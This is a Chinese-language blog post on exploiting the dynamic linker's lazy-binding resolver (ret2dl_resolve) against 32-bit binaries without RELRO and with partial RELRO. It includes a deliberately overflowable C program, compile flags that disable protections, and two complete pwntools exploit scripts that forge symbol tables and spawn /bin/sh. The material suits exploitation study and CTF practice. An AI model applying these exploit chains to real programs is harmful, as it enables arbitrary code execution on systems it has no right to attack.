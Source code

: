 ```yaml
---
title: Relro!
date: 2018-05-12 20:26:51
tags: pwn
layout: post
---
```

pwn by using dl_resolver
<!--more-->
# Relro


## 根据[winesap的社课][1]
    对于动态链接lazy binding在winesap的社课中已经说得非常清楚
    在这里不作过多赘述。

## 0x00 Relro
    #[A_paper_about_how_to_pwn_by_using_dl_resolver][2]

    relro 是一种用于加强对 binary 数据段的保护的技术。relro 分为 partial relro 和 full relro.gcc的默认是开partial.论文中涉及了对3种程度保护的理论上的攻击方法.由于时间有限和能力不足，只对no和partial进行实现；如有不正之处请予以指正@@338_5518_6880@qq.com@@

## 0x01 Binary:
```c
#include<stdio.h>
#include<unistd.h>
#include<string.h>
char buf[1000000];
void m()
{
char local[10];
int len=read(0,buf,sizeof(buf));
memcpy(local,buf,len);
}
int main()
{
m();
}
```
## 0x02 编译命令：
```
gcc raw.c -o part -no-pie -fno-stack-protector -m32
gcc raw.c -o no -no-pie -fno-stack-protector -Wl,-z,norelro -m32 
```

## 0x03 No
思路：
```
因为Dynstr是可以写的，我们只需要改写Dynstr表来将某一函数错误解析到system上
所以我们需要
1.改写Dynstr
2.Call plt0
```
exploit：
```python
from pwn import * 
context.log_level='critical'
dynamic=0x080496c0
dynstr_addr=dynamic+0x8*8+0x4
p3r=0x08048519
dynstr=0x804820c
plt0=0x80482d0
memcpy=0x80482f0
bss=0x8049800
data_addr=bss+1024

rop=flat(
memcpy,p3r,dynstr_addr,data_addr,4,
plt0,0x8,
memcpy,0xdeadbeef,data_addr+0xc
)
data=flat(
data_addr+4-(0x804822b-0x804820c),
"system\x00\x00",
"/bin/sh\0"
)
payload=("A"*26+rop).ljust(1024,'\0')+data
p=process("./no")
if False:
	gdb.attach(p,'''
	b *0x8048483
	c
	''')
p.sendline(payload)
p.interactive();
```
## 0x04 partial
思路：

![](/2018_5_12.png)
```
既然无法更改那几个table
那就伪造一个较大的reloc_arg使得:reloc_arg+rel.plt===>你可以写的位置A
然后在A处构造fake elf32_rel==>{somewhere we can write,info}
然后在B处即(info>>8)*16+dynstr处构造dynsym==>{a,b,c,d}
a+str指向我们可以写的地址我们在那里写入system\0
bcd参照其他的原来func的数值可用gdb查知
```
exploit:
```python
from pwn import *
memcpy=0x8048310
p3r=0x08048539
p2r=0x0804853a
pr=0x080482ed
ret=0x080482d6
dynmic=0x8049f14
rel_plt=0x80482b4
dynstr=0x804822c
dynsym=0x80481cc
bss=0x804a040
data_addr=0x804a140
plt0=0x80482f0
rop=flat(
plt0,0x1e8c,
0xdeadbeef,data_addr+36#address of bin/sh/
)
data=flat(
[0x804a040,0x7+(((data_addr+0xc-dynsym)/16)<<8)],0xdeadbeef,#rel
[data_addr+28-dynstr,0,0,0x12],#sym
"system\0\0",
"/bin/sh\0"
)
payload=("A"*26+rop).ljust(256,'\0')+data
p=process("./part")
if False:
	gdb.attach(p,'''
	b *0xf7fead8b
	c
	''')
p.sendline(payload)
p.interactive()
```
## 0x05 Full
思路:
![](/2018_5_12_1.png)

## 0x06 ：
适用于
在无法泄露或者泄露值无法得知的时候
工具利用先mark一下:[Mark][3]

 
[1]: https://www.youtube.com/watch?v=wsIvqd9YqTI
[2]: https://github.com/n132/banana/blob/master/Pwn/papers/dl_resolver.pdf
[3]: https://blog.betamao.me/2017/10/15/XDCTF-2015-Pwn200/